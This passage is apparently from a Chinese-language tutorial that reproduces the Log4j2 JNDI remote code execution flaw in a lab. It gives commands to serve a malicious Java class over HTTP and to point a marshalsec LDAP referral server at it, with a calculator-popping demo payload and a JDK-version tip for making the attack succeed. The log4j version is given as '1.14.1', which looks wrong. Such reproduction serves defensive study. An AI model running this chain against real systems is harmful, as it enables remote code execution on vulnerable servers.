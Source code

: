 1. 集成了log4j2的java项目。本示例：log4j的版本是`1.14.1`，JDK环境`1.8.0_121`。
2. 编译好的恶意`class`文件。本示例：恶意class文件在Windows环境运行**弹出计算器**，在Unix环境运行**列出运行环境监听的所有端口并生成图片test.jpg到程序运行目录**。
3. `LDAP`服务。本示例：使用`marshalsec-0.0.3-SNAPSHOT-all.jar`启动一个简单的`LDAP`服务。
4. 远程获取恶意class文件`http`服务。本示例：使用Python启动http服务，

从git上克隆项目到本地，github项目地址：[https://github.com/FengMengZhao/apache-log4j2-bug.git](https://github.com/FengMengZhao/apache-log4j2-bug.git)，gitee备份项目地址：[https://gitee.com/fengmengzhao/apache-log4j2-bug.git](https://gitee.com/fengmengzhao/apache-log4j2-bug.git)。

1). 导入maven项目到IDE中，或者使用`mvn`命令行下载maven依赖。

2). 将`Log4jRCE.java`类本地编译生成的class文件，该class文件即为恶意远程class文件，将该class提供为http可访问服务。可以将java和class文件copy到一个目录中，在该目录中启动简单的python http server：

> java源代码文件实际上并不需要，这里复制java源文件是为了验证http远程可访问。

```shell
#进入class文件所在的目录执行
/usr/bin/python3 -m http.server
```

服务端启动如图，默认端口是8000：

![](https://gitee.com/fengmengzhao/fengmengzhao.github.io/raw/master/img/posts/log4j-remote-class-python-httpserver.png)

http访问java文件验证：

![](https://gitee.com/fengmengzhao/fengmengzhao.github.io/raw/master/img/posts/log4j-remote-class-source-code-http-access.png)

3). 在项目`tool`目录下找到文件`marshalsec-0.0.3-SNAPSHOT-all.jar`，该jar包用于创建简单的`LDAP`服务。启动LDAP服务，默认监听`1389`端口号，需要指定2)中启动的远程http服务：

```shell
#可以在最后加上一个参数指定LDAP服务端口，模式是1389
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:port:8000/#Log4jRCE
```

启动`LDAP`服务后，默认监听`1389`端口，如图：

![](https://gitee.com/fengmengzhao/fengmengzhao.github.io/raw/master/img/posts/log4j-ldap-service.png)

4). 执行`log4j`的main方法，即可验证攻击完成：

在Windows平台上运行，弹出计算器：

![](https://gitee.com/fengmengzhao/fengmengzhao.github.io/raw/master/img/posts/log4j-win-invoke-calculator.png)

在Unix平台上运行，获取后台监听端口及进程，并将内容在运行目录生成`test.jpg`：

![](https://gitee.com/fengmengzhao/fengmengzhao.github.io/raw/master/img/posts/log4j-unix-get-listen-port-and-generate-pic.jpg)

> 如果不能够成功复现攻击，报错`11:54:23.960 [main] ERROR log4j - Reference Class Name: foo`，可能是JDK版本过高。降低版本到`1.8.0_191`之下再尝试。

<h4 id="3.2">3.2 防</h4>

